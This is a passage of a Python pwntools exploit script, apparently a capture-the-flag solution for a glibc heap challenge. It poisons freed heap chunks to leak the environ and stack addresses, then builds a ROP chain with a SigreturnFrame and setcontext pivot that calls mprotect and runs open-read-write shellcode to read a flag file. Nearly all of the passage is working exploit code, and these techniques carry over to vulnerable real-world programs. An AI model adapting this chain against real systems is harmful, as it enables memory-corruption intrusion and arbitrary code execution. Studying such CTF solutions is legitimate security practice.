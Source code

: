 ```python
environ_addr = libc.sym['environ']
lg("environ", environ_addr)
rm( 0)
add( 0x118,  flat('a'*0x18, 0x51))
rm( 1)
rm( 0)
add( 0x118,  flat('a'*0x18, 0x51, stdout_addr))

add( 0x48, 'a')

add( 0x148, flat(0xfbad1800, 0, 0, 0, environ_addr, environ_addr+8))

stack_addr = u64(io.recv( 8))
lg("stack address", stack_addr)

read_ret_stack = stack_addr - 384 # local and remote are same


rm( 4)

rm( 0)
add( 0x118,  flat('a'*0x18, 0x61))
rm( 1)
rm( 0)
add( 0x118,  flat('a'*0x18, 0x61, read_ret_stack))
add( 0x58, 'a')

# construct  rop chain

# call mprotect(read_ret_stack & ~0xfff, 0x100, 7) first

# then run the orw shellcode

sc53 = libc.symbols['setcontext'] + 53

PrdiR = libc.address + 0x000000000002155f # remote libc


frame = SigreturnFrame()
frame.rsp = read_ret_stack + 0x18
frame.rdi = (read_ret_stack) & ~0xfff
frame.rsi = 0x1000
frame.rdx = 7
frame.rip = libc.symbols['mprotect']


sc = shellcraft.open("/home/ctf/flag", 0)
sc += shellcraft.read(3, read_ret_stack-0x100, 0x40)
sc += shellcraft.write(1, read_ret_stack-0x100, 0x40)

sc = asm(sc)

add( 0x258,  flat(
        PrdiR, read_ret_stack + 0x28,
        sc53, 
        read_ret_stack + 0x180, 0,
        str(frame)
    ).ljust(0x180, '\0') + sc
)

io.interactive()

```